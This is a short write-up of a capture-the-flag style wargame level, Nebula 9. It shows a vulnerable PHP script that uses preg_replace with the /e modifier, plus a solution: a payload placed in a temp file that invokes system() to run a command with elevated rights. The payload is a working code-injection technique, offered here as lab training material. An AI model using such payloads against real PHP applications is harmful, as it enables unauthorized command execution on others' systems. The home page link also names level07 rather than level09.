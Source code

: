 .. _nebula09:

.. role:: bash(code)
	  :language: bash

.. role:: php(code)
	  :language: php
		     
Nebula 9
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**Source Code**

.. code-block:: php
		
		<?php

		function spam($email)
		{
		    $email = preg_replace("/\./", " dot ", $email);
		    $email = preg_replace("/@/", " AT ", $email);

		    return $email;
		}

		function markup($filename, $use_me)
		{
		    $contents = file_get_contents($filename);

		    $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
		    $contents = preg_replace("/\[/", "<", $contents);
		    $contents = preg_replace("/\]/", ">", $contents);

		    return $contents;
		}

		$output = markup($argv[1], $argv[2]);

		print $output;

		?>

Solution
--------

Create a file in tmp and add this

[email {${system($use_me)}}]

then run

:bash:`./flag09 /tmp/file.txt getflag
